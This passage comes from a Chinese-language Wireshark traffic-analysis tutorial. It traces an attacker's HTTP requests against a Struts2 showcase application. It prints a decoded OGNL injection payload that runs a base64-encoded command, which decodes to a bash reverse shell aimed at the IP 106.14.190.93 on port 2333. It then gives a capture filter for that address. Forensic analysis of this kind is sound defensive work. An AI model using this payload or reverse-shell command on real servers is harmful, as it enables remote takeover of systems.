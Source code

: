 

表达式执行成功，说明该漏洞存在，接下来查看攻击者利用该漏洞做了什么

### 3.3.2 查看攻击者利用漏洞做了什么

查看最后一个http流，发现存在bash字样，跟踪http流查看

![3.3.3](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/杂项/wireshark使用及实列讲解/3.3.3.png)



payload url解码：

```shell
/struts2-showcase/${
(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#ct=#request['struts.valueStack'].context).(#cr=#ct['com.opensymphony.xwork2.ActionContext.container']).(#ou=#cr.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ou.getExcludedPackageNames().clear()).(#ou.getExcludedClasses().clear()).(#ct.setMemberAccess(#dm)).(#a=@java.lang.Runtime@getRuntime().exec('bash -c {echo,YmFzaCAtaSA+Ji9kZXYvdGNwLzEwNi4xNC4xOTAuOTMvMjMzMyAwPiYxCg==}|{base64,-d}|{bash,-i}')).(@org.apache.commons.io.IOUtils@toString(#a.getInputStream()))}/actionChain1.action
```

发现攻击者在尝试反弹shell

paylaod中的base64字符串解码得到：

```shell
bash -i >&/dev/tcp/106.14.190.93/2333 0>&1
```

说明攻击者想将shell反弹到106.14.190.93的2333端口



### 3.3.3 查看攻击者是否拿到shell，并执行了那些操作

已经确定反弹shell的vps，那么直接查看与该ip的数据流

```shell
ip.addr==106.14.190.93
```
